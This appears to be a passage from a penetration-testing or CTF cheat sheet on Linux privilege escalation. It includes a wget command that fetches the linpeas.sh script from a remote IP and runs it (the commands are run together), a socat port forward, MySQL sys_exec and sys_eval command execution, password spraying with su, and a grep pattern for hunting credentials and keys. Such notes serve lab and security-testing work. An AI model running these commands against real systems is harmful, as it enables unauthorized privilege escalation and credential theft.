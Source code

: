 ```
wget http://10.10.10.10/linpeas.sh;chmod 777 ./linpeas.sh./linpeas.sh -a -e -P <password>
```


#### Linux Exploit Suggester

https://github.com/The-Z-Labs/linux-exploit-suggester

#### LinEnum

https://github.com/rebootuser/LinEnum

#### Linux Smart Enumeration

https://github.com/diego-treitos/linux-smart-enumeration

### Port Forwarding

```
./socat64 -ddd TCP-LISTEN:2345,fork TCP:127.0.0.1:65432 &
```


**Mysql**

If you find that mysql is running as root and you username and password to log in to the database you can issue the following commands:

```
select sys_exec('whoami');
select sys_eval('whoami');
```

### Spray passwords we know to other users

```
su user
```

### Password Hunting

File Content:
```
grep --color=always -rnEi "passw|passwd|password|passcode|credentials|cred|key|apikey|secret|seckey|auth|authentication|authkey|token|jwt|oauth|ssh_key|private_key|pem|pfx|cert|certificate|hash|md5|sha1|sha256|sshpass" './' 2>/dev/null

grep --color=always -rnEi "clay|lisa|ftp" './' 2>/dev/null

#if binary file matches add the -a flag
#Exclusions
--exclude="*.css"
--exclude="*.js"
--exclude="*.map"


find ./ -type f -iname "*conf*"
find / -type f -iname "flag.txt"
```
